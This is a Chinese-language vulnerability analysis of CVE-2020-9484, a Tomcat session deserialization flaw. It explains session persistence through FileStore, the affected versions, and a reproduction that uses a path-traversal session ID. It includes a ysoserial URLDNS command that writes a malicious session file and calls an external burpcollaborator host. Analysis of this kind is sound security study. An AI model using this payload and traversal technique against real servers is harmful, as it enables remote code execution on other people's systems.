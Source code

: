 （CVE-2020-9484）Tomcat session反序列化漏洞
===========================================

一、漏洞简介
------------

对
于一个企业级应用而言，Session对象的管理十分重要。Sessio对象的信息一般情况下置于服务器的内存中，当服务器由于故障重启，或应用重新加载
时候，此时的Session信息将全部丢失。为了避免这样的情况，在某些场合可以将服务器的Session数据存放在文件系统或数据库中，这样的操作称为
Session对象的持久化。Session对象在持久化时，存放在其中的对象以序列化的形式存放，这就是为什么一般存放在Session中的数据需要实
现可序列化接口（java.io.Serializable）的原因了。当一个Session开始时，Servlet容器会为Session创建一个HttpSession对象。Servlet容器在某些情况下把这些
HttpSession对象从内存中转移到文件系统或数据库中，在需要访问
HttpSession信息时再把它们加载到内存中。

### 实现

要完成session持久化，存放在session里的对象必须要实现`java.io.Serializable`
接口。Session的持久化是由`Session Manager`来管理的。Tomcat提供了两个实现类：

-   **org.apache.catalina.session.StandardManager** (默认)
-   **org.apache.catalina.session.PersistentManager**

### 配置

存储在本地文件中需要配置conf目录里的**context.xml**文件在`节点下添加如下`节点：

    <Manager className="org.apache.catalina.session.PersistentManager" 
        debug="0"
        saveOnRestart="false"
        maxActiveSession="-1"
        minIdleSwap="-1"
        maxIdleSwap="-1"
        maxIdleBackup="-1">
        <Store className="org.apache.catalina.session.FileStore" directory="../session" />
    </Manager>

二、漏洞影响
------------

Tomca \<= 9.0.34Tomca \<= 8.5.54Tomca \<= 7.0.103

三、复现过程
------------

### 漏洞分析

一般文件存储session的问题就是sessionID没有做过滤，允许跳出路径，让session文件变成攻击者控制的文件，导致漏洞产生，这次的session漏洞也不例外

我们选择了session的存储为FileStore，所以在FileStore类的load方法处设置断点

在servlet中创建一个很简单的java session

    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
            Properties properties = new Properties();
            properties.setProperty("org.apache.catalina.session.StandardSession.ACTIVITY_CHECK", "true");
            System.setProperties(properties);
            String res = System.getProperty("org.apache.catalina.session.StandardSession.ACTIVITY_CHECK");
            System.out.println(res);
            HttpSession httpSession = req.getSession();
            httpSession.setAttribute("username", "admin");
            resp.getWriter().println("success");
        }

现在我们的漏洞环境就搭建好了，设置tomcat启动即可

### 设置sessionid

我们设置sessionid存在目录穿越符号

![1.png](./.resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId28.png)

刷新页面，被断点拦截

![2.png](./.resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId29.png)

第一步先是获取到session文件

![3.png](./.resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId30.png)

可以看到，我们的sessionID后面会添加一个.session后缀，这也就导致我们需要一个可控文件名的文件上传，这一点就比较难以满足

但是可以看出来，不需要准确知道确定的相对录路径，一直跳到根目录即可，但是因为sessionid有长度限制的，所以还是有一点限制

### 反序列化

这个时候，我们可以跳到任意目录了，我们在tmp下面生成了URLDNS的ysoserial，来做dns查询

    java -jar ysoserial.jar URLDNS "http://lsh9lo0bpipjrb0kp98cn4khb8h15q.burpcollaborator.net" > /tmp/test.session

![4.png](./.resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId32.png)

只要这个session文件存在，就会将文件内容读取出来，并且创建ObjectInputStream，最后调用了readObjectData

熟悉java反序列化的话这个地方一眼就能看出来有反序列化的问题

我们继续进入readObjectData

![5.png](./.resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId33.png)

调用readObject，触发反序列化

### 利用截图

使用URLDNS，成功获取到DNS请求

![6.png](./.resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId35.png)

漏洞利用条件较为苛刻

参考链接
--------

> https://xz.aliyun.com/t/7803\#toc-1
